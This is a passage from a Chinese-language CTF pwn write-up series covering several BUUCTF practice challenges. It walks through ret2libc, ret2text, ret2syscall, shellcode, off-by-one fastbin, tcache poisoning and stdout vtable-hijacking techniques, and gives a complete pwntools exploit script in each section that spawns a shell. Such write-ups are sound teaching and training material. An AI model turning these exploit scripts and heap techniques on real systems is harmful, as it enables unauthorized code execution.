payload2 = b'A' * offset + p64(canary) + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(e.got['puts']) + p64(e.plt['puts']) + p64(e.sym['vuln'])
p.sendline(payload2)
puts_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')

payload3 = b'A' * offset + p64(canary) + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(sh_addr) + p64(sys_addr)
p.sendline(payload3)
p.interactive() 
```

运行即可getshell



# 0x02F.jarvisoj_test_your_memory - ret2text

惯例的`checksec`， 只开了NX保护



拖入IDA进行分析



存在溢出



存在system函数


存在一个`cat flag`字符串

那直接system(“cat flag”)就行了

构造exp如下：

```
from pwn import *
p = remote('node3.buuoj.cn', 29485)
e = ELF('./memory')
offset = 0x13
payload = b'A' * offset + p32(0xdeadbeef) + p32(e.sym['system']) + p32(e.sym['puts']) + p32(0x080487E0)
p.sendline(payload)
p.interactive() 
```

运行即可得到flag



> 注：这道题很坑，题目给的二进制文件和部署在服务器上的二进制文件大相径庭，所以没能get shell…

# 0x30.bjdctf_2020_router - Linux基础知识

惯例的`checksec`，只开了NX保护



拖入IDA进行分析



直接可以执行`/bin/sh`，只需要加一个分号把前面的指令分割开来即可

故构造exp如下：

```
from pwn import *
p = process('./bjdctf_2020_router') # p = remote('node3.buuoj.cn', 25537)
p.sendline(b'1')
p.sendline(';/bin/sh')
p.interactive() 
```

运行即可get shell



> 这是个🔨pwn题

# 0x31.picoctf_2018_buffer overflow 1 - ret2libc

惯例的`checksec`，保护全关，明示我们可以为所欲为❤



拖入IDA进行分析，直接就有一个很明显的溢出



直接ret2libc即可

构造exp如下：

```
from pwn import *
from LibcSearcher import *
p = process('./PicoCTF_2018_buffer_overflow_1') 
e = ELF('./PicoCTF_2018_buffer_overflow_1') 
offset = 0x28

payload1 = b'A' * offset + p32(0xdeadbeef) + p32(e.plt['puts']) + p32(e.sym['main']) + p32(e.got['puts'])

p.sendline(payload1)
p.recvuntil(b'Jumping')
p.recvuntil(b'\n')
puts_addr = u32(p.recv(4))

libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')

payload2 = b'A'*offset + p32(0xdeadbeef) + p32(sys_addr) + p32(0xdeadbeef) + p32(sh_addr)

p.sendline(payload2)
p.interactive() 
```

运行即可get shell



# 0x32.[ZJCTF 2019]Login - ret2text

惯例的`checksec`，开了nx和canary



拖入IDA进行分析

在主函数中会对输入的username和password进行校验



漏洞点在password_checker()函数，会执行call rax



我们尝试对该值进行溯源，其来自于password_checker()函数的第一个参数



这个参数来自于上层调用函数栈上的rbp - 0x130的位置



这个位置上的数值来自于另一个password_checker()函数的返回值



最终我们得知该值应当来自于函数调用栈上的rbp - 0x18的位置



在输入password的时候我们是从同一个栈位置（同一层级的函数调用使用始于相同位置的栈空间）的rbp - 0x60的位置输入的，虽然使用了fgets但是覆写掉这个位置绰绰有余



同时程序中存在着可以直接get shell的gadget



故直接构造exp如下：

```
from pwn import *
p = process('./login') 
p.sendline(b'admin')
password = b'2jctf_pa5sw0rd'
p.sendline(password + b'\x00' * (0x60 - 0x18 - len(password)) + p64(0x400e9e))
p.interactive() 
```

运行即可get shell



# 0x33.cmcc_simplerop -ret2syscall | ret2shellcode

惯例的`checksec`，只开了NX



拖入IDA进行分析，直接就有一个很大的溢出



但是程序本身是经过静态编译的，因此没法直接通过常规的ret2libc来get shell

## 解法一：ret2syscall

我们可以发现在程序中存在可以进行系统调用的`int 0x80`中断指令



故考虑通过0x80号中断执行11号系统调用`execve("/bin/sh", 0, 0)`以get shell，其中字符串我们是可以手动读入到bss段上的

需要注意的是栈上参数需要我们手动进行弹出

故构造exp如下：

```
from pwn import *

p = remote('node3.buuoj.cn',29872)
e = ELF('./simplerop') 
pop_esi_pop_edi_pop_ebp_ret = 0x0804838c
pop_edi_pop_ebp_ret = 0x0804838d
pop_eax_ret = 0x080bae06
pop_ecx_pop_ebx_ret = 0x0806e851
pop_edx_ret = 0x0806e82a
int_0x80 = 0x080493e1
offset = 0x1c

payload = b'A' * offset + p32(0xdeadbeef)  + p32(e.sym['read']) + p32(pop_esi_pop_edi_pop_ebp_ret) + p32(0) + p32(e.bss()) + p32(0x8) + p32(pop_eax_ret) + p32(0xb) + p32(pop_ecx_pop_ebx_ret) + p32(0) + p32(e.bss()) + p32(pop_edx_ret) + p32(0) + p32(int_0x80)

p.sendline(payload)
p.sendline(b'/bin/sh\x00')
p.interactive() 
```

运行即可get shell



## 解法二：ret2shellcode

程序本身还带有mprotect函数，故考虑修改bss段为可执行后读入shellcode来get shell

构造exp如下：

```
from pwn import *

p = remote('node3.buuoj.cn',29872)
e = ELF('./simplerop') 
pop_esi_pop_edi_pop_ebp_ret = 0x0804838c
pop_edi_pop_ebp_ret = 0x0804838d
pop_eax_ret = 0x080bae06
pop_ecx_pop_ebx_ret = 0x0806e851
pop_edx_ret = 0x0806e82a
int_0x80 = 0x080493e1
offset = 0x1c

payload = b'A' * offset + p32(0xdeadbeef)  + p32(e.sym['mprotect'])  + p32(pop_esi_pop_edi_pop_ebp_ret) + p32(e.bss() & (0xffff000)) + p32(0x2000) + p32(0x7) + p32(e.sym['read']) + p32(pop_esi_pop_edi_pop_ebp_ret) + p32(0) + p32(e.bss() + 0x50) + p32(0x50) + p32(e.bss() + 0x50)

p.sendline(payload)
p.sendline(asm(shellcraft.sh()))
p.interactive() 
```

运行即可get shell



# 0x34.roarctf_2019_easy_pwn - off by one + fastbin attack + one_gadget

惯例的`checksec`，**保 护 全 开**（噔 噔 咚）



拖入IDA进行分析



保护全开的题不出意外应当是一道堆题，这题也不例外

程序本身有**着分配、编辑、释放、打印**堆块的功能

漏洞点在于edit功能中，若是输入的size刚好是原size + 10的话就会允许多输入一个字节，即**存在off by one漏洞**



题目中对于chunk size的限制是4096（四舍五入等于没有），故考虑**通过off by one漏洞修改相邻chunk的size构造overlapping chunk泄露libc基址后通过overlapping chunk进行fastbin attack构造__malloc_hook - 0x23附近的fake chunk后修改__malloc_hook为one_gadget后分配任意chunk即可get shell**

需要注意的一点是one_gadget对于栈帧是有着一定要求的，我们可以尝试使用realloc函数中的gadget来进行压栈等操作来满足one_gadget的要求

故构造exp如下：

```
from pwn import *

context.arch = 'amd64'

p = process('./roarctf_2019_easy_pwn') 
e = ELF('./roarctf_2019_easy_pwn')
libc = ELF('./libc-2.23.so')
one_gadget = 0x4526a

def cmd(choice:int):
    p.recvuntil(b"choice: ")
    p.sendline(str(choice).encode())

def new(size:int):
    cmd(1)
    p.recvuntil(b"size: ")
    p.sendline(str(size).encode())

def edit(index:int, size:int, content):
    cmd(2)
    p.recvuntil(b"index: ")
    p.sendline(str(index).encode())
    p.recvuntil(b"size: ")
    p.sendline(str(size).encode())
    p.recvuntil(b"content: ")
    p.send(content)

def free(index:int):
    cmd(3)
    p.recvuntil(b"index: ")
    p.sendline(str(index).encode())

def dump(index:int):
    cmd(4)
    p.recvuntil(b"index: ")
    p.sendline(str(index).encode())
    p.recvuntil(b"content: ")

def exp():
    new(0x18) 
    new(0x18) 
    new(0x80) 
    new(0x60) 

    edit(0, 0x18 + 10, p64(0) * 3 + b'\xb1')
    free(1)
    new(0xa0) 
    edit(1, 0x20, p64(0) * 3 + p64(0x91))
    free(2)
    dump(1)
    main_arena = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 88
    __malloc_hook = main_arena - 0x10
    libc_base = __malloc_hook - libc.sym['__malloc_hook']

    new(0x60) 
    new(0x10) 
    edit(0, 0x18 + 10, p64(0) * 3 + b'\x91')
    free(1)
    new(0x10) 
    new(0x60) 

    free(3)
    free(5)
    edit(2, 0x8, p64(libc_base + libc.sym['__malloc_hook'] - 0x23))
    new(0x60) 
    new(0x60) 

    edit(5, 11 + 0x10, b'A' * (0x13 - 8) + p64(libc_base + one_gadget) + p64(libc_base + libc.sym['__libc_realloc'] + 0x10))
    new(0x10)
    p.interactive()

if __name__ == '__main__':
    exp() 
```

运行即可get shell



> 说实话笔者觉得这道题质量一般…有种为了出题而出题的感觉…

# 0x35.pwnable_orw - orw

> pwnablt.tw的刷题记录见[这里](https://archive.next.arttnba3.cn)，因为是做过的题所以直接把当时的wp搬过来了www

首先可以看到题目对环境做出了一定的限制



惯例的`checksec`，发现只开了`canary`



拖入IDA进行分析



主程序一开始会先调用`orw_seccomp()`函数，我们点进去康康



v4是canary的值，我们现在还不知道是否需要绕过canary，故先不予理会

接下来调用了`qmemcpy()`函数，实际上就是`memcpy`函数，将从0x8048640地址开始拷贝0x60字节的数据到v3中，随后赋值12给v1，v2作为指针获取v3的首字节地址

最后调用`prctl()`函数，结合题目的说明，我们大致可以猜测到`orw_seccomp()`函数的作用应该是**禁用其他的系统调用，仅开放sys_read、sys_write、sys_open**

也就是说我们**无法通过sys_execve来getshell**

接下来回到主函数，我们很容易看出该程序会读入最大0xC8字节输入并尝试执行该输入

结合题目说明，我们**仅考虑构造shellcode来cat flag**

故构造exp如下：

```
from pwn import *
shellcode = shellcraft.open('/flag')
shellcode += shellcraft.read('eax','esp',100)
shellcode += shellcraft.write(1,'esp',100)
p = remote('node3.buuoj.cn', 28333)
p.sendline(asm(shellcode))
p.interactive() 
```

运行即可获得flag



# 0x36.[V&N2020 公开赛]easyTHeap - Use After Free + tcache hijact + tcache poisoning + one_gadget

> 不愧是VN的题…又让笔者这个蒟蒻pwner学到了一种新的攻击手法…

惯例的`checksec`，保护全开，不出意外又是一道堆题~~看名字也知道是一道堆题~~



拖入IDA进行分析



程序本身有着**分配、编辑、打印、释放**堆块的功能，算是功能比较齐全

但是程序本身限制了**只能分配7次堆块，只能释放3次堆块**



漏洞点在于free功能中**没有将堆块指针置NULL，存在Use After Free漏洞**



虽然说在分配堆块的功能中并没有过于限制大小（0x100），但是题目所给的libc是有着tcache的2.27版本，需要通过unsorted bin泄露main_arena的地址我们至少需要释放8次堆块才能获得一个unsorted chunk，而我们仅被允许释放3次堆块

但是利用use after free我们是可以泄露堆基址的，而**用以管理tcache的tcache_perthread_struct结构体本身便是由一个chunk实现的**

> 以下代码来自glibc2.27
> 
> ```
> static void
> tcache_init(void)
> {
> mstate ar_ptr;
> void *victim = 0;
> const size_t bytes = sizeof (tcache_perthread_struct);
> 
> if (tcache_shutting_down)
>  return;
> 
> arena_get (ar_ptr, bytes);
> victim = _int_malloc (ar_ptr, bytes);
> if (!victim && ar_ptr != NULL)
>  {
>    ar_ptr = arena_get_retry (ar_ptr, bytes);
>    victim = _int_malloc (ar_ptr, bytes);
>  }
> ... 
> ```
> 
> 我们不难看出tcache结构本身便是通过一个chunk来实现的

libc2.27中没有对tcache double free的检查，故在这里我们可以**通过tcache double free结合use after free泄漏出堆基址后伪造一个位于tcache_perthread_struct结构体附近的fake chunk以劫持tcache_perthread_struct结构体修改tcache_perthread_struct->counts中对应index的值为7后释放chunk便可以获得unsorted bin以泄露libc基址**

惯例的pwndbg动态调试，我们可以得到tcache结构体的size，也就得到了偏移



> libc2.31下这个size为0x291，不要像我一样犯了调错libc的错误❌

需要注意的是在free功能中会将其保存的chunk size置0， 因而我们需要**重新将这个chunk申请回来后才能继续编辑**

> 菜鸡a3の踩坑点 * 1

## 解法一：劫持__malloc_hook

比较老生常谈的做法了，**因为我们已经获得了对tcache结构体的控制权所以可以直接修改指针为__malloc_hook后改为one_gadget后分配任一chunk即可get shell**，这种做法刚好用满7次分配

由于one_gadget对栈上值有要求，故在这里选择构造fake chunk到__realloc_hook旁，通过realloc中的gadget调整栈帧后再跳转到one_gadget

构造exp如下：

```
from pwn import *

context.arch = 'amd64'

p = process('./vn_pwn_easyTHeap') 
e = ELF('./vn_pwn_easyTHeap')
libc = ELF('./libc-2.27.so')
one_gadget = 0x4f322

def cmd(choice:int):
    p.recvuntil(b"choice: ")
    p.sendline(str(choice).encode())

def new(size:int):
    cmd(1)
    p.recvuntil(b"size?")
    p.sendline(str(size).encode())

def edit(index:int, content):
    cmd(2)
    p.recvuntil(b"idx?")
    p.sendline(str(index).encode())
    p.recvuntil(b"content:")
    p.send(content)

def dump(index:int):
    cmd(3)
    p.recvuntil(b"idx?")
    p.sendline(str(index).encode())

def free(index:int):
    cmd(4)
    p.recvuntil(b"idx?")
    p.sendline(str(index).encode())

def exp():

    new(0x100) 
    new(0x100) 
    free(0)
    free(0)

    dump(0)
    heap_leak = u64(p.recv(6).ljust(8, b"\x00"))
    heap_base = heap_leak - 0x260
    log.info('heap base leak: ' + str(hex(heap_base)))

    new(0x100) 
    edit(2, p64(heap_base + 0x10))
    new(0x100) 
    new(0x100) 
    edit(4, b"\x07".rjust(0x10, b"\x07")) 

    free(0)
    dump(0)
    main_arena = u64(p.recvuntil(b"\x7f").ljust(8, b"\x00")) - 96
    __malloc_hook = main_arena - 0x10
    libc_base = __malloc_hook - libc.sym['__malloc_hook']
    log.info('libc base leak: ' + str(hex(libc_base)))

    edit(4, b"\x10".rjust(0x10, b"\x00") + p64(0) * 21 + p64(libc_base + libc.sym['__realloc_hook']))
    new(0x100) 
    edit(5, p64(libc_base + one_gadget) + p64(libc_base + libc.sym['__libc_realloc'] + 8))

    new(0x100)
    p.interactive()

if __name__ == '__main__':
    exp() 
```

运行即可get shell



> p64(0) * 21的偏移也是我手动调出来的…当然那些熟读libc源码的大佬基本都能直接🧠算（
> 
> 

## 解法二：攻击stdout劫持vtable表

> 在ha1vk师傅的博客看到的解法…这个思路我个人觉得很巧妙…反正是学到了新东西…

除了劫持__malloc_hook为one_gadget之外，我们也可以通过劫持_IO_2_1_stdout_中的vtable表的方式调用one_gadget

观察到程序中在我们edit之后会调用puts()函数



puts()函数定义于libio/ioputs.c中，代码如下：

```
int
_IO_puts (const char *str)
{
  int result = EOF;
  size_t len = strlen (str);
  _IO_acquire_lock (_IO_stdout);

  if ((_IO_vtable_offset (_IO_stdout) != 0
       || _IO_fwide (_IO_stdout, -1) == -1)
      && _IO_sputn (_IO_stdout, str, len) == len
      && _IO_putc_unlocked ('\n', _IO_stdout) != EOF)
    result = MIN (INT_MAX, len + 1);

  _IO_release_lock (_IO_stdout);
  return result;
}

weak_alias (_IO_puts, puts)
libc_hidden_def (_IO_puts) 
```

观察到其会使用宏`_IO_sputn`，该宏定义于libio/libioP.c中，如下：

```
 #define _IO_sputn(__fp, __s, __n) _IO_XSPUTN (__fp, __s, __n) 
```

套娃宏，跟进：

```
#define _IO_XSPUTN(FP, DATA, N) JUMP2 (__xsputn, FP, DATA, N)
...
#define _IO_JUMPS_OFFSET 0
...
#if _IO_JUMPS_OFFSET
...
#else
# define _IO_JUMPS_FUNC(THIS) (IO_validate_vtable (_IO_JUMPS_FILE_plus (THIS)))
...
#define JUMP2(FUNC, THIS, X1, X2) (_IO_JUMPS_FUNC(THIS)->FUNC) (THIS, X1, X2) 
```

即**puts函数最终会调用vtable表中的**`__xsputn`**函数指针**，gdb调试我们可以知道其相对表头偏移应当为`0x30`（64位下）



由于**libc2.23后增加了对vtable表的合法性检测，故我们只能执行位于合法vtable表范围内的函数指针**

考虑到**_IO_str_finish函数会将_IO_2_1_stdout_ + 0xE8的位置作为一个函数指针执行**，故我们选择修改_IO_2_1_stdout_的vtable表至特定位置以**调用_IO_str_finish函数**

表_IO_str_jumps中存在着我们想要利用的_IO_str_finish函数的指针，且该表是一个合法vtable表，故只要我们**将stdout的vtable表劫持到_IO_str_finish附近即可成功调用_IO_str_finish函数**



由_IO_jump_t结构体的结构我们不难计算出fake vtable的位置应当为**_IO_str_jumps - 0x28**

劫持vtable表后在_IO_2_1_stdout_ + 0xE8的位置放上one_gadget，即可在程序调用puts函数时get shell

通过gdb调试可以帮助我们更好地构造fake _IO_2_1_stdout_结构体





需要注意的一点是有少部分符号无法直接通过sym字典获得，我们在这里采用其相对偏移以计算其真实地址，详见注释



故最后构造的exp如下：

```
from pwn import *

context.arch = 'amd64'

p = process('./vn_pwn_easyTHeap') 
e = ELF('./vn_pwn_easyTHeap')
libc = ELF('./libc-2.27.so')
one_gadget = 0x4f322

def cmd(choice:int):
    p.recvuntil(b"choice: ")
    p.sendline(str(choice).encode())

def new(size:int):
    cmd(1)
    p.recvuntil(b"size?")
    p.sendline(str(size).encode())

def edit(index:int, content):
    cmd(2)
    p.recvuntil(b"idx?")
    p.sendline(str(index).encode())
    p.recvuntil(b"content:")
    p.send(content)

def dump(index:int):
    cmd(3)
    p.recvuntil(b"idx?")
    p.sendline(str(index).encode())

def free(index:int):
    cmd(4)
    p.recvuntil(b"idx?")
    p.sendline(str(index).encode())

def exp():

    new(0x100) 
    new(0x100) 
    free(0)
    free(0)

    dump(0)
    heap_leak = u64(p.recv(6).ljust(8, b"\x00"))
    heap_base = heap_leak - 0x260
    log.info('heap base leak: ' + str(hex(heap_base)))

    new(0x100) 
    edit(2, p64(heap_base + 0x10))
    new(0x100) 
    new(0x100) 
    edit(4, b"\x07".rjust(0x10, b"\x07")) 

    free(0)
    dump(0)
    main_arena = u64(p.recvuntil(b"\x7f").ljust(8, b"\x00")) - 96
    __malloc_hook = main_arena - 0x10
    libc_base = __malloc_hook - libc.sym['__malloc_hook']
    log.info('libc base leak: ' + str(hex(libc_base)))

    fake_file = b""
    fake_file += p64(0xFBAD2886) 
    fake_file += p64(libc_base + libc.sym['_IO_2_1_stdout_'] + 131) * 7 
    fake_file += p64(libc_base + libc.sym['_IO_2_1_stdout_'] + 132) 
    fake_file += p64(0) * 4 
    fake_file += p64(libc_base + libc.sym['_IO_2_1_stdin_']) 
    fake_file += p32(1) 
    fake_file += p32(0) 
    fake_file += p64(0xFFFFFFFFFFFFFFFF) 
    fake_file += p16(0) 
    fake_file += b"\x00" 
    fake_file += b"\n" 
    fake_file += p32(0) 
    fake_file += p64(libc_base + libc.sym['_IO_2_1_stdout_'] + 0x1e20) 
    fake_file += p64(0xFFFFFFFFFFFFFFFF) 
    fake_file += p64(0) 
    fake_file += p64(libc_base + libc.sym['_IO_2_1_stdout_'] - 0xe20) 
    fake_file += p64(0) * 3 
    fake_file += p32(0xFFFFFFFF) 
    fake_file += b"\x00" * 19 
    fake_file = fake_file.ljust(0xD8,b'\x00') 
    fake_file += p64(libc_base + libc.sym['_IO_file_jumps'] + 0xc0 - 0x28) + p64(0) + p64(libc_base + one_gadget) 

    edit(4, b"\x10".rjust(0x10, b"\x00") + p64(0) * 21 + p64(libc_base + libc.sym['_IO_2_1_stdout_']))
    new(0x100) 
    edit(5, fake_file)

    p.interactive()

if __name__ == '__main__':
    exp() 
```

运行即可get shell



> ### _IO_FILE_plus结构体中 vtable 相对偏移
> 
> > 在 libc2.23 版本下，32 位的 vtable 偏移为 0x94，64 位偏移为 0xd8
> > 
> > [ctf-wiki: FILE structure](https://ctf-wiki.org/pwn/linux/io_file/introduction/)
> 
> ### vtable 合法性检测
> 
> 自从glibc2.24版本起便增加了对于vtable的检测，代码如下：
> 
> ```
>  static inline const struct _IO_jump_t *
> IO_validate_vtable (const struct _IO_jump_t *vtable)
> {
> 
> uintptr_t section_length = __stop___libc_IO_vtables - __start___libc_IO_vtables;
> uintptr_t ptr = (uintptr_t) vtable;
> uintptr_t offset = ptr - (uintptr_t) __start___libc_IO_vtables;
> if (__glibc_unlikely (offset >= section_length))
>  
>  _IO_vtable_check ();
> return vtable;
> } 
> ```
> 
> gdb调试可知这个section_length的长度为3432（0xd68）：
> 
> 
> 
> 由此，我们所构造的fake vtable的位置受到了一定的限制，即只能在`__start___libc_IO_vtables`往后0xd68字节的范围内
> 
> ### vtable表劫持姿势
> 
> 由于**_IO_str_finish函数会将_IO_2_1_stdout_ + 0xE8的位置作为一个函数指针执行**，故我们通常考虑在这个位置放上我们想要执行的指令地址（如one_gadget）并将vtable表劫持到适合的位置以执行`_IO_str_finish()`函数
> 
> 通常情况下，我们考虑**劫持_IO_2_1_stdout_并修改其vtable表至表_IO_str_jumps附近**，该vtable表定义于libio/sstrops.c中，如下：
> 
> ```
> const struct _IO_jump_t _IO_str_jumps libio_vtable =
> {
> JUMP_INIT_DUMMY,
> JUMP_INIT(finish, _IO_str_finish),
> JUMP_INIT(overflow, _IO_str_overflow),
> JUMP_INIT(underflow, _IO_str_underflow),
> JUMP_INIT(uflow, _IO_default_uflow),
> JUMP_INIT(pbackfail, _IO_str_pbackfail),
> JUMP_INIT(xsputn, _IO_default_xsputn),
> JUMP_INIT(xsgetn, _IO_default_xsgetn),
> JUMP_INIT(seekoff, _IO_str_seekoff),
> JUMP_INIT(seekpos, _IO_default_seekpos),
> JUMP_INIT(setbuf, _IO_default_setbuf),
> JUMP_INIT(sync, _IO_default_sync),
> JUMP_INIT(doallocate, _IO_default_doallocate),
> JUMP_INIT(read, _IO_default_read),
> JUMP_INIT(write, _IO_default_write),
> JUMP_INIT(seek, _IO_default_seek),
> JUMP_INIT(close, _IO_default_close),
> JUMP_INIT(stat, _IO_default_stat),
> JUMP_INIT(showmanyc, _IO_default_showmanyc),
> JUMP_INIT(imbue, _IO_default_imbue)
> }; 
> ```
> 
> 不难看出，在**该表中有我们所需的_IO_str_finish函数，且该表本身便是vtable表列表中的一个表**，能很好地通过vtable表合法性检测，因此我们劫持stdout时便尝将fake vtable劫持到该表附近
> 
> 需要注意的一点是我们需要**修改_IO_2_1_stdout的flag的最后一位为0以通过_IO_str_finish函数中的检测**：
> 
> ```
>  void
> _IO_str_finish (FILE *fp, int dummy)
> {
> if (fp->_IO_buf_base && !(fp->_flags & _IO_USER_BUF))
>  free (fp->_IO_buf_base);
> fp->_IO_buf_base = NULL;
> 
> _IO_default_finish (fp, 0);
> }
> 
> #define _IO_USER_BUF          0x0001 
> ```
> 
> 详见[ctf-wiki: exploit in libc2.24](https://ctf-wiki.org/pwn/linux/io_file/exploit-in-libc2.24/#_io_str_jumps-finish)

# 0x???.0ctf_2017_babyheap - Unsorted bin leak + Fastbin Attack + one_gadget

出现重复的题是真的离谱

过程见前面0x013，这里就不再赘叙了

exp如下：

```
from pwn import *
p = remote('node3.buuoj.cn',27143)
libc = ELF('./libc-2.23.so')

def alloc(size:int):
    p.sendline('1')
    p.recvuntil('Size: ')
    p.sendline(str(size))

def fill(index:int,content):
    p.sendline('2')
    p.recvuntil('Index: ')
    p.sendline(str(index))
    p.recvuntil('Size: ')
    p.sendline(str(len(content)))
    p.recvuntil('Content: ')
    p.send(content)

def free(index:int):
    p.sendline('3')
    p.recvuntil('Index: ')
    p.sendline(str(index))

def dump(index:int):
    p.sendline('4')
    p.recvuntil('Index: ')
    p.sendline(str(index))
    p.recvuntil('Content: \n')
    return p.recvline()

alloc(0x10) 
alloc(0x10) 
alloc(0x10) 
alloc(0x10) 
alloc(0x80) 

free(1) 
free(2) 

payload = p64(0)*3 + p64(0x21) + p64(0)*3 + p64(0x21) + p8(0x80)
fill(0,payload)

payload = p64(0)*3 + p64(0x21)
fill(3,payload)

alloc(0x10) 
alloc(0x10) 

payload = p64(0)*3 + p64(0x91)
fill(3,payload)
alloc(0x80) 
free(4) 

main_arena = u64(dump(2)[:8].strip().ljust(8,b'\x00')) - 0x58
malloc_hook = main_arena - 0x10
libc_base = malloc_hook - libc.sym['__malloc_hook']
one_gadget = libc_base + 0x4526a

alloc(0x60) 
free(4) 
payload = p64(malloc_hook - 0x23)
fill(2,payload) 

alloc(0x60) 
alloc(0x60) 

payload = b'A'*0x13 + p64(one_gadget)
fill(6,payload)

alloc(0x10)
p.interactive() 
```



# 0x???.mrctf2020_easyrop - ret2text

> 从比较靠后的无人区挑了一道简单题来做2333（~~为了混分~~

惯例的`checksec`，发现只开了栈不可执行保护



主函数中根据我们所输入的数字进入不同的函数，输入7则在进入相应的函数之后退出



同时我们可以发现存在能够直接getshell的gadget



虽然说几个函数都是向main中的v5上写入，但是最大的一个函数仅可以写入`0x300`字节，溢出到rbp要`0x310`字节



不过我们可以发现，在`byby()`函数中程序会将v5看作为一个字符串，并在字符串末尾开始读入用户输入



由于`hehe()`能够读入0x300字节，故我们考虑先使用`hehe()`函数构造一个长度为0x2ff的字符串，再调用`byby()`函数进行读入，便可以溢出控制主函数的返回地址返回至`system("/bin/sh")`

故构造exp如下：

```
from pwn import *

p = remote('node3.buuoj.cn',29482)
p.sendline('2')
sleep(1)
p.send(b'A'*(0x300-1)+b'\x00')
sleep(1)
p.sendline('7')
sleep(1)
p.send(b'A'*0x11+p64(0xdeadbeef)+p64(0x40072a))
p.interactive() 
```

运行脚本即得flag

